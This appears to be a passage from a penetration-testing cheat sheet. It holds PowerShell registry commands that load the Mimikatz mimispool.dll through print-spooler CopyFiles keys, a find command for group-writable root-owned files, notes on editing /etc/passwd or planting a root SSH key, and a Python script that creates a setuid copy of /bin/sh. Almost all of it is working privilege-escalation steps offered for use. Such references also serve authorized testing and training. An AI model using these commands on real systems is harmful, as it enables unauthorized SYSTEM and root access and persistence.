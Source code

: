 ```c
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
```

```c
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
```

```c
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```

### User Group Exploitation

> https://wixnic.github.io/linux-privesc-groups/

> https://www.hackingarticles.in/multiple-ways-to-get-root-through-writable-file/

#### Possibilities

```c
- Edit /etc/passwd    // copy it to /tmp to edit
- Add new SSH Key to /root/
```

#### Find modifyable Files

```c
$ find / -group root -perm -g=w ! -type l 2>/dev/null | grep -v 'proc\|sys' | xargs ls -l
```

#### Option 1

```c
#!/usr/bin/env python
import os
import sys
try:
       os.system('cp /bin/sh /tmp/sh')
       os.system('chmod u+s /tmp/sh')
except:
       sys.exit()
```
